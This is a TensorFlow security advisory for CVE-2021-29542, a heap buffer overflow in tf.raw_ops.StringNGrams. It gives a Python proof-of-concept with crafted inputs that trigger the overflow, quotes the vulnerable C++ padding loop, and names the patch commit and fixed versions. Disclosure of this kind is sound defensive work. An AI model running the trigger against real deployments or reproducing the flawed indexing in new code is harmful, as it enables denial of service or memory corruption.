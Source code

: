 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-029.md
## TFSA-2021-029: Heap buffer overflow in `StringNGrams`

### CVE Number
CVE-2021-29542

### Impact
An attacker can cause a heap buffer overflow by passing crafted inputs to
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

separator = b'\x02\x00'
ngram_widths = [7, 6, 11]
left_pad = b'\x7f\x7f\x7f\x7f\x7f'
right_pad = b'\x7f\x7f\x25\x5d\x53\x74'
pad_width = 50
preserve_short_sequences = True

l = ['', '', '', '', '', '', '', '', '', '', '']

data = tf.constant(l, shape=[11], dtype=tf.string)

l2 = [0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
     0, 0, 3]
data_splits = tf.constant(l2, shape=[116], dtype=tf.int64)

out = tf.raw_ops.StringNGrams(data=data,
    data_splits=data_splits, separator=separator,
    ngram_widths=ngram_widths, left_pad=left_pad,
    right_pad=right_pad, pad_width=pad_width,
    preserve_short_sequences=preserve_short_sequences)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L171-L185)
fails to consider corner cases where input would be split in such a way that the
generated tokens should only contain padding elements:

```cc
for (int ngram_index = 0; ngram_index < num_ngrams; ++ngram_index) {
  int pad_width = get_pad_width(ngram_width);
  int left_padding = std::max(0, pad_width - ngram_index);
  int right_padding = std::max(0, pad_width - (num_ngrams - (ngram_index + 1)));
  int num_tokens = ngram_width - (left_padding + right_padding);
  int data_start_index = left_padding > 0 ? 0 : ngram_index - pad_width;
  ...
  tstring* ngram = &output[ngram_index];
  ngram->reserve(ngram_size);
  for (int n = 0; n < left_padding; ++n) {
    ngram->append(left_pad_);
    ngram->append(separator_);
  }
  for (int n = 0; n < num_tokens - 1; ++n) {
    ngram->append(data[data_start_index + n]);
    ngram->append(separator_);
  }
  ngram->append(data[data_start_index + num_tokens - 1]); // <<<
  for (int n = 0; n < right_padding; ++n) {
    ngram->append(separator_);
    ngram->append(right_pad_);
  }
  ...
}
```

If input is such that `num_tokens` is 0, then, for `data_start_index=0` (when
left padding is present), the marked line would result in reading `data[-1]`.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/tensorflow/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
